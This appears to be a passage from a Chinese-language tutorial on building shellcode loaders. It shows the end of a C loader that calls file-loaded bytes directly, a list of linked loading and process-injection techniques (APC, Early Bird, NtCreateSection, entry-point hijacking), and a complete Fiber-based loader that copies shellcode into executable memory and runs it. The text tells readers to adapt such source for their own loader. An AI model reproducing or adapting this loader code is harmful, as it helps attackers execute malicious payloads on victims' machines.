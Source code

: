 ```c
    DWORD dwRead;
    ReadFile(hFile, lpAddress, dwSize, &dwRead, 0);
    
    __asm
    {
        call lpAddress;

    }
    _flushall();
    
    
    system("pause");
    return 0;
}
```

加载器主要就是用来执行shellcode，有许多种加载方式，参考[文章](https://paper.seebug.org/1413/)

> [5.加载方式](https://paper.seebug.org/1413/#5)
>
> - 直接加载类
>   - [CreateThreadpoolWait加载](https://paper.seebug.org/1413/#createthreadpoolwait)
>   - [Fiber加载](https://paper.seebug.org/1413/#fiber)
>   - [NtTestAlert加载](https://paper.seebug.org/1413/#nttestalert)
>   - [SEH异常加载](https://paper.seebug.org/1413/#seh)
>   - [TLS回调加载](https://paper.seebug.org/1413/#tls)
>   - [动态加载](https://paper.seebug.org/1413/#_2)
>   - [动态加载plus](https://paper.seebug.org/1413/#plus)
>   - [系统call加载](https://paper.seebug.org/1413/#call)
> - 注入类
>   - [APC注入](https://paper.seebug.org/1413/#apc)
>   - [Early Brid APC注入](https://paper.seebug.org/1413/#early-brid-apc)
>   - [NtCreateSection注入](https://paper.seebug.org/1413/#ntcreatesection)
>   - [入口点劫持注入](https://paper.seebug.org/1413/#_4)

去文章中的github查看源码，简单地对其转换即可在我们的加载器中使用了。如：

源码Fiber.cpp

```c
#include"..\public.hpp"


int APIENTRY wWinMain(_In_ HINSTANCE hInstance, _In_opt_ HINSTANCE hPrevInstance, _In_ LPWSTR    lpCmdLine, _In_ int       nCmdShow)
{
	//1.Get shellcode and shellcodesize from Resource by ID
	UINT shellcodeSize = 0;
	unsigned char *shellcode = GetShellcodeFromRes(100, shellcodeSize);
	if (shellcode == nullptr)
	{
		return 0;
	}
	//2.Get shellcode memory
	LPVOID Memory = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(Memory, shellcode, shellcodeSize);
	//3.Execute shellcode
	PVOID mainFiber = ConvertThreadToFiber(NULL);
	PVOID shellcodeFiber = CreateFiber(NULL, (LPFIBER_START_ROUTINE)Memory, NULL);
	SwitchToFiber(shellcodeFiber);
	DeleteFiber(shellcodeFiber);
	return 0;
}
```
